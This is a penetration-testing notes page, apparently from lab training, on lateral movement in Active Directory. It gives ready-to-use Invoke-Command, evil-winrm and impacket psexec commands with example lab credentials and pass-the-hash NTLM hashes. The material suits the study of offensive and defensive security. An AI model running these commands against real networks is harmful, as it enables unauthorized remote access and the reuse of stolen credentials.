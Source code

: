 ```yaml
---
title: "AD: Connecting to other hosts"
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - active
  - directory
  - linux
  - windows
---
```

# AD: Connecting to other hosts

!!! quotes "Resources"
	- [TheHacker.recipes](https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword#forcechangepassword

[Index of Active Directory](active-directory.md)

[Hardening and auditing Active Directory ](hardening-auditing-active-directory.md)

!!! tip "Attacking from linux"
	- [Enumerating Active Directory from Linux](active-directory-from-linux-enumeration.md)
	- [Attacking Active Directory from Linux](active-directory-from-linux-attacks.md)
	- [Lateral Movement in Active Directory from Linux](active-directory-from-linux-lateral-movement.md)
	- [Privileges escalation in Active Directory from Linux](active-directory-from-linux-privilege-escalation.md)

!!! tip "Attacking from Windows"
	- [Enumerating Active Directory from Windows](active-directory-from-windows-enumeration.md)
	- [Active directory: connecting to other hosts](active-directory-connections.md)
	- [Attacking Active Directory from Windows](active-directory-from-windows-attacks.md)
	- [Privileges escalation in Active Directory from Windows](active-directory-from-windows-privilege-escalation.md)



## Invoke-Command

Invoke-Command allows the executions of commands in remote hosts. We can use a "nested" Invoke-Command to send credentials (after creating a PSCredential object) with every request. 


```powershell
# 1. Now we will create a Secure-string object with the credential of the user svc_sql. Then we will use Invoke-Command to run a command in the host MS01
# 1. We create a SecureString Object with our creds
$SecPassword = ConvertTo-SecureString '$password' -AsPlainText -Force
# Example: 
# $SecPassword = ConvertTo-SecureString '!qazXSW@' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('$domain\$userSamAccountName', $SecPassword)
# Example:
# $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\backupadm', $SecPassword)

# 2. We send the nested Invoke-Command
Invoke-Command -ComputerName "$hostname.$domainName" -Credential $cred -ScriptBlock { Get-Content "C:\Users\Administrator\Desktop\flag.txt" }
# Example: 
# Invoke-Command -ComputerName "MS01.INLANEFREIGHT.LOCAL" -Credential $cred -ScriptBlock { Get-Content "C:\Users\Administrator\Desktop\flag.txt" }
``` 


## Enter-PSSession


## Evil-Winrm

With a pivot host and chisel + proxychains

```powershell
proxychains evil-winrm -i $ip -u $user -p $password
```

With hashes:

```bash
evil-winrm -i $ip -u Administrator -H "32693b11e6aa90eb43d32c72a07ceea6"
```


## psexec.py

With a pivot host and chisel + proxychains 

```powershell
proxychains tools/impacket/examples/psexec.py INLANEFREIGHT.LOCAL/svc_sql:lucky7@172.16.6.50
```

Passing a hash:

```bash
# An example: 
python3 psexec.py Administrator@$ip -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6

# Another example:
impacket-psexec egotistical-bank.local/administrator@$ip -hashes aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e
```


## mstsc.exe 